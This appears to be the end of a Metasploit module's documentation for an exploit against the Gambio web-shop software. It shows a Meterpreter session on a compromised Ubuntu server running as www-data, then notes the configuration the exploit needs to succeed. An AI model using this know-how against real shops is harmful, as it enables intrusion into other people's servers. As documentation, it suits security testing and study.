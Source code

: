 ```msf
[*] Server stopped.

meterpreter > sysinfo
Computer     : 192.168.201.25
OS           : Ubuntu 22.04 (Linux 5.15.0-101-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: www-data
meterpreter > pwd
/var/www
meterpreter > exit
```

## Limitations
Gambio is also supported on Windows systems, however the admin access seems to be broken on the vulnerable versions.
This causes the exploit not to run successfully.
Another dependency is that one or more tax countries should be defined in the configuration of the application, otherwise
guest users can not be created causing the exploit to fail. The default setup of the application has at least one tax country defined.
